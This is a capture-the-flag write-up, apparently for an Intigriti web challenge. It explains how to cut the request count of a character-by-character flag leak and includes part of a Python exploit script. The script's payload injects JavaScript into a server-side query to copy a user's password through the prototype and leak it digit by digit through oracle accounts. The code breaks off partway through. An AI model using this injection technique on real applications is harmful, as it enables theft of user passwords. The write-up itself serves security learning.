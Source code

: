 Our solution consist of two phases, setup and leaking.

For setup phase, we make 100 requests to cover all possible characters. Leaking one character takes 1 login request + 1 edit request + 1 search request, so it's 3 * 19 = 57 to leak the whole flag.

Apparently, we send too much requests in setup phase.

To make it less, we can use a new approach.

Instead of creating 100 oracles, we create only 10 oracles(0-9). For every character, we leak twice, first time we leak `ASCII % 10`, second time leak `ASCII / 10`.

`~` is the last printable character, it has ASCII code 126, and the first printable character is `!`, ASCII code 33.

So, if we get the ASCII code of the flag and minus 27, it's guarantee that it has at most two digits.

Assumed that the character we are leaking has ASCII code 68, it's 41 after miuns 27.

The goal is to leak "4" for the first round and "1" for the second round.

By using this new approach, the request is now 10(setup) + 6 * 19(leaking) = 124.

Moreover, we don't need to create the account again for the second round, so it's 10 + 5 * 19 = 105 requests, very close to 100.

``` py
import requests
import json
import concurrent.futures
import string
import time

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

SKIP_CREATE_ORACLE = 0
MAX_WORKERS = 15
charset = string.digits
req_count = 0

def create_oracle(c):
  global req_count
  session = requests.session()
  session.post(LOGIN_URL, data={
    "username": "account_oracle_" + c,
    "password": "account_oracle_" + c,
  })
  req_count+=1
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)

def leak_char(index):
  # leak 10a + b + 27 = ascii
  global req_count
  payload = 'anything@anything.com" || this.username=="PinkDraconian" && (() => {this.__proto__.flag = this.password;})() || this.flag && this.username == "account_oracle_" + (this.flag.charCodeAt(' + str(index) + ') - 27) % 10 || "'
  session = requests.session()

  name = "account_get_" + str(index)

  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
```